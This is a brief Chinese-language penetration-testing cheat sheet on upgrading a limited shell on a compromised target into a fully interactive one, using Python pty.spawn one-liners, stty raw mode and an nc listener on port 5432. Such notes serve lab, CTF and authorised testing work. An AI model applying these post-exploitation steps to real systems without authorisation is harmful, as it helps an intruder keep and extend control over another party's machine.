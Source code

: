 ```yaml
---
description: 适用于将功能有限的非交互式shell升级成完全交互式shell
---
```


# ✔️ 升级Shell

## Python

```python
// 先在目标系统中查找是否已安装Python，并确认其版本
which python
// 根据实际情况使用：
python -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

有时即使利用Python升级后的shell，也可能无法完整使用各种命令行的功能，此时可尝试一下方法：

```bash
// 查看Kali本机的终端信息
echo $TERM
// 记录行数和列数信息就行
stty -a
// 分别记录下以上输出之后，将终端设为原始模式，并关闭回显
stty raw -echo
// 重新监听端口，此时格式有点奇怪，但是不要紧
nc -lvnp 5432
reset
// 按实际情况输入'echo $TERM'的信息（例）：
xterm-256color
xterm
// 按实际情况输入行数和列数信息（例）：
stty rows 56 columns 213
```

